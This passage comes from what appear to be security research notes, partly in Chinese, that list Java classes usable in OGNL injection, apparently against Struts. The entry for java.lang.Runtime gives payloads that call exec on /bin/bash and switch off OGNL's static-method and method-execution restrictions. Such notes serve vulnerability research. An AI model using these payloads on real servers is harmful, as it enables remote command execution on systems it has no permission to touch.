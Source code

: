 
### 17 = "org.apache.tomcat.InstanceManager"
* 这是一个接口，不能实例化
* src-code  
  [Jump to InstanceManager](./assets/InstanceManager.java)


### 18 = "java.lang.Runtime"
* payload
  ```js
  // high risk
  %{@java.lang.Runtime@getRuntime()}
  // 跟 exec() 内的 command 有关
  // 可能需要 特定进程 和 工作目录 才行
  %{#a=new java.lang.Runtime().exec("/bin/bash")}
  %{#a=new java.lang.Runtime().exec(new java.io.File("/"))}

  %{#_memberAccess.allowStaticMethodAccess=true,
    #context["xwork.MethodAccessor.denyMethodExecution"]=false,
    #a=new java.lang.Runtime()}
  
  ```
  ![](./imgs/chop-18-001.png)  
  ![](./imgs/chop-18-002.png)